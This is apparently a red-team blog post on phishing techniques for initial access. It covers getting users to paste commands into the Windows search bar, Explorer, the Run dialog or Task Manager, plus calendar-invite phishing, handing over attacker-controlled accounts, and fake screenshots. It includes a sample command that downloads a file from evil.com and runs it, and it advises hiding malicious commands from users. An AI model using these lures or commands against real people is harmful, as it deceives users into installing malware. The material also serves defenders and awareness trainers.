






This post discusses how an attacker can social engineer users in ways that go beyond the traditional methodology<!-- end -->.

# Introduction

Most organizations have some sort of security awareness training and I've seen some which are quite robust and effective. Although it does not make initial access impossible, it does make it more difficult and time consuming. Defenders and security vendors know what to expect when it comes to initial access. Matt Hand's <a href="https://posts.specterops.io/hang-fire-challenging-our-mental-model-of-initial-access-513c71878767" target="_blank">blog post</a> summarized initial access with the following statement:

> An attacker sends their thing. A user clicks the thing. The thing goes boom. The attacker has a callback.

To stop attackers you teach your users to avoid "clicking the thing" and build prevention and detection mechanisms with that statement in mind.

## Browser & OS Security

Additionally, default security controls for operating systems and browsers have made it increasingly difficult for users to download and execute files. 

For example, when a user lands on a phishing page and attempts to download a binary, Chrome will display a warning to the user. If the user ignores the warning and attempts to execute the binary then Windows SmartScreen will produce another warning to the user. All of these warnings may give users second thoughts before executing our malicious file during an engagement.

## Purpose

The purpose of this blog post is to try to come up with unexpected ways to social engineer users in order to increase our initial access success rate.

# Initial Access Via Copy Pasting

```Ctrl + C``` and ```Ctrl + V``` is part of everyone's day-to-day actions when using a computer. With that being said, security training programs don't warn users of the dangers when pasting commands in certain places on a Windows machine. Let's take advantage of this gap to help us potentially gain initial access on the machine.

## Windows Search Bar

**Tested on Windows 10. Doesn't work on Windows 11**.

If you didn't know, the Windows search bar allows you to execute commands. In the mind of most users it is considered a benign location which makes it a perfect location to have them paste a malicious command. Most users would not assume that by searching for something that they can unknowingly give remote access to their machine. Below is an example of what an attacker's email could say.



When the user pastes the command, the Windows search bar will run it as a command instead.


### Length Limit

The content the user pastes should be less than 255 characters.

## Windows Explorer

**Tested on Windows 10/11**.

Explorer's address bar is also a location that can be used to execute commands. An example email asking the user to paste a command in the Explorer address bar is shown below.


The user would need to paste the command as shown below.


## Windows Run

**Tested on Windows 10/11**.

The Windows Run Dialog Box is also another option that users can paste our malicious commands in. It's simple to launch due to the built in shortcut ```Windows + R``` and has a relatively benign and generic looking input field. It is also common knowledge that the Windows Run Dialog Box is used to launch applications. On the other hand it is not common knowledge for the average user that pasting commands there can be dangerous.

Below is a sample email an attacker could send.


The breakdown of the example command is shown below.

```
# Generic text to comfort the user
cmd /c echo Open company.pdf with the password: c0mp@ny123. &&

# Downloading the malicious file
cmd /c curl evil.com/company.pdf > %temp%\company.pdf && 

# Executing the file
%temp%\company.pdf
```

The command would be pasted into the Windows Run Dialog Box.


### Length Limit

The content the user pastes should be less than 260 characters.

## Task Manager

**Tested on Windows 10/11**.

The task manager also has a hidden field to run commands. An example email from an attacker would look like this.


### Length Limit

The content the user pastes should be less than 260 characters.

## LOLBIN Compatible

Note that you're not limited to Cmd.exe or Powershell.exe when running commands, you can use LOLBINs instead.


## Hiding The Malicious Command

To have a better success rate, your command should probably be inline with user expectations. Another option is to simply hide the malicious command by making the user<a href="https://www.bleepingcomputer.com/news/security/dont-copy-paste-commands-from-webpages-you-can-get-hacked/" target="_blank">unknowingly copy a benign command</a>.Furthermore, you can hide parts of the command by making it blend with the background color.



# Calendar Invites

Calendar invites are another source of phishing that organizations don't train their users on sufficiently. I've personally had success with calendar invites and I found the two best approaches are:

1. Sending a calendar invite to the target with non-existent users from the company as particpants (e.g. someone.realistic@company.com).
2. Use faked .ics files as shown <a href="https://mrd0x.com/spoofing-calendar-invites-using-ics-files/" target="_blank">here (Gmail)</a> or <a href="https://www.exandroid.dev/2021/04/24/phishing-with-fake-meeting-invite/" target="_blank">here (Outlook)</a>.



# Establishing An Alternate Communication Channel

Users are commonly trained to never type away their credentials without double checking they're on the right website. But what if someone provides the user with credentials to a new email address or any other communication channel? This goes against the logic that users have been trained for.



In this example, the account may be pre-configured with malicious files on OneDrive or phishing emails in their inbox.

# Use Fake Images

Fake images can be used as part of your pretext to make your claim look more believable. Here's an example of what an attacker could do.



You can use faked images along with personal or internal information you've gained through the recon phase to make your pretext even more believable. For example, if you know the organiation uses Slack you can fake a Slack image.



# Conclusion

Yes we would all like it if the user were to just download and execute our binary but sometimes it may take some added creativity to eventually reach our goal. In this post I've demonstrated several ways that you can throw a user off when it comes to initial access. I'm sure there's more out methods out there but I think this post helps you to think outside the box.